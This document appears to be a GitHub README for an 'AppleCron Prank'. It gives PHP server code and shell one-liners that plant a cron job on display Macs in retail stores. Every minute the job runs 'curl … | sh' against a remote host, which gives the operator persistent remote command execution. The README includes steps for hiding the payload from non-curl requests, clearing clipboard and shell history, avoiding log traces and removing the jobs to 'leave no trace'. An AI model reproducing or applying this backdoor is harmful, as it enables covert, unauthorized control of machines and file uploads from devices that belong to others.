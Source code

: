 #AppleCron Prank

##Original idea

[Antonio Roberts / @hellocatfood](http://www.hellocatfood.com/) suggested an AppleStore prank in [this tweet](https://twitter.com/hellocatfood/status/695605824815788033)


##The idea
Going further, I found out that one can remote control machines using cron jobs, bash scripts and some php pages.

The idea is to create a cron job which will, at a certain interval, retrieve the commands to be executed .

Some examples of what can be achieved:
- Reboot
- Shutdown
- Close Safari or any other app
- Open a web page in the default browser.
- Take a snapshot.
- Upload files
- Add new cron jobs
- Update a cron job
- Remove a cron job
- Remove all cron jobs (in case you want to leave no trace)

##Overview

The first part consist in adding a cron job to a machine.
Then this job will run every x minutes and retrieve the command to be executed.
You can later update the script remotely through a web page and take control/execute scripts on the machine.
The cron job can later be removed remotely, leaving no trace.

Note : I assume that the the index.php is hosted at the root of your domain.
If not the case, change yourdomain.ext for yourdomain.ext/folder in the examples and in the code

###In details

I'm using a multipurpose php page which will serve the scripts.
This page does three things :

1- Send fake information when not accessed via curl
2- Deliver the installation script
3- Deliver other scripts stored in a script.txt file

```
<?php
header("Content-type: text/plain");

// if this page is accessed with anything else than curl, we stop here
if (stripos($_SERVER['HTTP_USER_AGENT'], "curl") === false) {
  exit("Nothing to see here");
} 

// Installation command
if (isset($_GET["i"])) {
       print '(crontab -l; echo "* * * * * curl -sL meth.fr | sh") | crontab -;echo " " | pbcopy;history -c;reset' . PHP_EOL;
}
// Prank commands
else {
    $file = fopen("script.txt", "r") or die("open http://retailpoisoning.tumblr.com/");
    echo fread($file,filesize("script.txt"));
}
?>
```

The installation script is returned when accessing the index.php page via curl, with the ?i argument.
For instance, if the index.php is at the root level of your domain :
yourdomain.ext?i

The command script is returned when accessing the page via curl without any argument :
For instance, if the index.php is at the root level of your domain :
yourdomain.ext

Any request sent from anything else than curl will be filtered out.

##How those scripts get executed on the machine
To achieve that, we use curl and pipe it to either the clipboard or bash

Typing this command ...
```
 curl -sL yourdomain.ext?i | pbcopy
 ```
... will retrieve the following installation script and copy it to the clipboard: 
```
 (crontab -l ; echo " * * * * * curl -s -L yourdomain.ext | sh") | crontab  -; echo "" | pbcopy; history -c; reset
```

Pasting this command will create a cron job executed every minute. The rest of the command deletes the content of the clipboard, clears the Terminal history and resets it.

This cron job will get other scripts (we access the page without the ?i argument) every minute and pipe it to bash for execution.

Starting from here you can do almost anything that doesn't require administrator right (when sudo is not needed), including bash commands, AppleScript commands, etc etc.

The script.txt file can be updated on the fly using the x.php page.
This means once your cron job is running you can change the script (and thus the commands run every minute) from your smartphone.

To avoid this script being indexed or accessible to others, you can set a pass key that you pass as an argument : ie: http://yourdomain.ext/x.php?xyz=abc

The x.php page is just an interface which sends updated commands to the update.php page, in charge of updating the script.txt file :

There are some predefined command but there is also a text field to enter any other command.
Note : you can also update the x.php page if you want to customize it with your own commands and pass key


##How to proceed

First, you need access to the machine to be able to add this cron job.
So head to your local retailler, pick a MacOSX machine and do this :

- Open a Terminal window
- Type this command to copy the install command to the clipboard
```
curl -sL yourdomain.ext?i | pbcopy
```
- Then CTRL+V to execute it
- Exit Terminal
- Move away then use your smartphone (or do it offsite) to launch commands through the x.php page.

Note : be carefull with the command's syntax because when cron cannot execute a script, it will be logged in /var/mail/%username% and thus will leave a trace.


##More about cron jobs

Remove all cron jobs
```
crontab -r
```

Append a new job to the existing ones
```
(crontab -l 2>/dev/null; echo " */2 * * * * open fortune.com/2016/01/19/apple-child-labor/") | crontab -
```

Replace cron jobs with a new one
```
(crontab -l | echo " * * * * * open fortune.com/2016/01/19/apple-child-labor/") | crontab -
```

Replace a specific job (ie: the one containing "fortune")
```
(crontab -l 2>/dev/null;  echo "*/4 * * * * http://techcrunch.com/2016/01/19/apple-microsoft-samsung-and-other-tech-firms-implicated-in-child-labor-report/ | grep -v 'fortune.com' | crontab -") | crontab -
```

It may be worth having a look at AppleScripting for more fun.


##Further ideas

This can be used:
- regularly push info from your machine to a server.
- track a stolen Mac.
- prank your friends/colleagues


